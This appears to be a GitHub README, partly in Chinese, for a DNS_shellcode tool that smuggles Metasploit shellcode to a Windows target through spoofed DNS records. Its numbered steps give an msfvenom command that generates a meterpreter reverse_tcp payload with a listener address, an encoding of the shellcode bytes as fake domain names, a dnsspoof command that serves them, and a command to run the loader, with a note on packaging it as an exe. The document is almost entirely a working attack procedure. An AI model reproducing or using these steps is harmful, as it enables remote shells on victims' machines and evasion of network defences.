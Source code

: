 # DNS_shellcode
DNS_shellcode分离传输脚本
## step.1
- msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.133 lport=5555 -f c > /root/safe/payload.txt

## step.2
将shellcode制作成  IP+地址 的格式
Ipaddress "{payload}.domain.com"
- 1.1.1.0 "0xfc0x480x830xe40xf00xe8.1.com"
- 1.1.1.1 "0xbc0xc80x130xff0x100x08.1.com"

python格式化脚本可参见项目script_format.py

## step.3
#### DNS_Server
- dnsspoof -i eth0 -f dns.txt
listening msf

## setp.4
Execute this python_scripts and input Your Bad_DNS_Server_IP


## 更新日志
2020/2/12

狗林说双方无交互下无法input，改命令格式+pyinstaller的exe格式。

更新命令格式
- python DNS_shellcode.py -o 192.168.1.1
